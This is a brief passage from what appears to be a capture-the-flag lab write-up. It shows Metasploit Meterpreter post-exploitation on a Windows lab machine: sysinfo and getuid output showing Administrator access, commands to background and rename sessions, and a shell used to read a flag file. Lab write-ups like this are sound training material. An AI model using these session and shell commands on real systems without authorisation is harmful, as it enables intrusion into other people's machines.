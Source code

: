```bash
sysinfo
    Computer        : ATTACKDEFENSE
    OS              : Windows 2016+ (10.0 Build 17763).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows

getuid
	Server username: ATTACKDEFENSE\Administrator
```

```bash
background
sessions -n target-2 -i 2
```

![](3-metasploitassets/image-20230420001830582.png)

```
sessions 2
shell
cd /
type flag.txt
```



<details><summary>Reveal Flag: 🚩</summary></details>



------

